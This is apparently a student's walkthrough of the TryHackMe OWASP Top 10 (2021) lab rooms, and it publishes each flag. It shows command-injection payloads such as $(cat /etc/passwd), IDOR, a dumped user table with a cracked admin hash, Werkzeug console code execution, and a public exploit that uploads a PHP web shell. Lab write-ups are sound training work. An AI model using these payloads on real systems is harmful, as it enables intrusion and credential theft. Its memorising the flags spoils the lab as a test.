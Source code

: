 # Owasp top 10 (2021)

**Date**: 28, August, 2024  
**Author**: P.Hima Bindu  

---

[Click Here](https://tryhackme.com/r/room/owasptop102021) to go to the TryHackMe room.

---

![Description](./Images/img1.png)

Deploy the machine and go to [http://MACHINE_IP](http://MACHINE_IP) - Login with the username **noot** and the password **test1234**.


### **Task 4 :** Broken Access Control (IDOR Challenge)

- Look at other users' notes. What is the flag?
  - Try to change the 'note_id=1' parameter to something else. I tried 'note_id=2/3/4', At 'note_id=5' I get a hint displayed in the screen.
  - **Hint** - Do note_ids start from 1? Maybe go lower ;)
  - Then changed the 'note_id=0', Boom! I got the flag
  - **flag{fivefourthree}**


### **Task 8 :** Cryptographic Failures(Challenge)

connect to the web application at http://Machine_IP/.

##
- What is the name of the mentioned directory?

```bash
curl http://10.10.134.171:81/login.php
```

observe the page, you can find this :  Must remember to do something better with the database than store it in **/assets**...

- Ans - **/assets**
##

##
- Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data? (Navigate to - http://10.10.134.171:81/assets)

![Description](./Images/img2.png)

- Ans - **webapp.db**
##

##
- Use the supporting material to access the sensitive data. What is the password hash of the admin user?

```bash 
sqlite3 webapp.db
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.
sqlite> .tables
sessions  users   
sqlite> PRAGMA table_info(sessions)
   ...> ;
0|sessionID|TEXT|1||1
1|userID|TEXT|1||0
2|expiry|INT|1||0
sqlite> PRAGMA table_info(users);
0|userID|TEXT|1||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|admin|INT|1||0
sqlite> SELECT * FROM users;
4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0

```
- Ans - **6eea9b7ef19179a06954edd0f6c05ceb**
##

##
- What is the admin's plaintext password?
  - use the crackstation online tool for cracking the hash

![Description](./Images/img3.png)  

  - Ans - **qwertyuiop**
##

##
- Log in as the admin. What is the flag?

  - username=admin, password=qwertyuiop

![Description](./Images/img4.png) 

- Ans - **THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}**
##



### 3.1 Command Injection (Task 10)

navigate to http://Machine_IP:82/ and exploit the cowsay server

##
- What strange text file is in the website's root directory?

- $(ls) 

![Description](./Images/img8.png) 

- Ans: **drpepper.txt**

##

##
- How many non-root/non-service/non-daemon users are there?

- $(cat /etc/passwd)

- Here in the passwd file, there are no non-root users/non-service/non-demon. So the answer is:
- Ans: **0**

##

##
- What user is this app running as?

- $(whoami)

![Description](./Images/img6.png) 

- Ans: **apache**

##

##

- What is the user's shell set as?

- $(cat /etc/passwd)

![Description](./Images/img7.png)

- Ans: **/sbin/nologin**
##

##
- What version of Alpine Linux is running?

- $(cat /etc/alpine-release)

![Description](./Images/img5.png)

- Ans: **3.16.0**
##

### 4.Insecure Design (Task 11)

- Navigate to http://MACHINE_IP:85 and get into joseph's account. 

  - Try to reset joseph's password.
  - Try to answer the security question which validates the user's favirote color.. First TRY with VIBGEYOR(violet,indigo,blue,green,yellow,orange,red) 
  - At **green** it was true....
  - get the password and login to the account.

![Description](./Images/img9.png)

![Description](./Images/img10.png)


**Flag - THM{Not_3ven_c4tz_c0uld_sav3_U!}**

##

##

### 5.Security Misconfiguration (Task 12)

 - Navigate to http://MACHINE_IP:86/console to access the Werkzeug console.

  -  import os; print(os.popen("ls -l").read())

  - ![Description](./Images/img11.png)

  - Modify the code to read the contents of the app.py file, which contains the application's source code. What is the value of the secret_flag variable in the source code?

  - ![Description](./Images/img12.png)

  - **Flag -** **THM{Just_a_tiny_misconfiguration}**

##  


## 

### Vulnerable and Outdated Components - Lab (Task 15)

- Navigate to http://MACHINE_IP:84 where you'll find a vulnerable application. All the information you need to exploit it can be found online. 

  - search and download the exploit - i.e [47887.py]

  - Run the following command

```bash
python3 47887.py http://10.10.31.234:84 
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.31.234:84/bootstrap/img/8T1IdSEuVy.php
> Example command usage: http://10.10.31.234:84/bootstrap/img/8T1IdSEuVy.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ cat /opt/flag.txt
THM{But_1ts_n0t_my_f4ult!}
```

![Description](./Images/img13.png)

- **Flag-** **THM{But_1ts_n0t_my_f4ult!}**

##



##


### Identification and Authentication Failures - Practical (Task 17)

- Navigate to http://MACHINE_IP:8088 

  - Try to  register " darren" instead, and you'll see that you are now logged in and can see the content present only in darren's account

  - What is the flag that you found in darren's account?

  - ![Description](./Images/img14.png)

  - **Ans** **fe86079416a21a3c99937fea8874b667**

  - What is the flag that you found in arthur's account?

  - ![Description](./Images/img15.png)

  - **Ans** **d9ac0f7db4fda460ac3edeb75d75e16e**